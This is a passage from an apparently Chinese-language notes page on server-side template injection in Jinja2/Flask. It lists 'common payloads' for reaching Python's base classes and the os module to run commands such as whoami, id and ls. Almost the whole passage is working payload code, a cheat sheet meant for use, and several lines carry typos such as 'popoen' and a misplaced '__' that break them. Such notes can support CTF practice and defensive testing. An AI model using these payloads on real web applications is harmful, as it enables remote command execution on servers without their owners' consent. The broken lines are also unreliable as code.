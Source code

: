 ![alt text](images/image22.png)

这个其实跟示例一的差别只是前面，即**准备一个具体函数**：
```python
lipsum   <=====>   [].__class__.__base__.__subclasses__()['method'].__init__
```

#### 示例三
```python
{{url_for.__globals__['os'].popen('whoami').read()}}
```
与示例二差不多。


### 1.2 常用payload(持续更新~)
#### 命令执行
```python
获得基类
# python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
# python3.7
''.__class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]


# 命令执行
#os执行
'''[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：'''
{{''.__class__.__mro__[2]__.__subclasses__()[xx].__init__.__globals__['os'].popoen('ls').read()}}
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
{{''.__class__.__mro__[2]__.__subclasses__()[xx].__init__.__globals__['linecache']['os'].popen('ls').read()}}
# eval,impoer等全局函数
```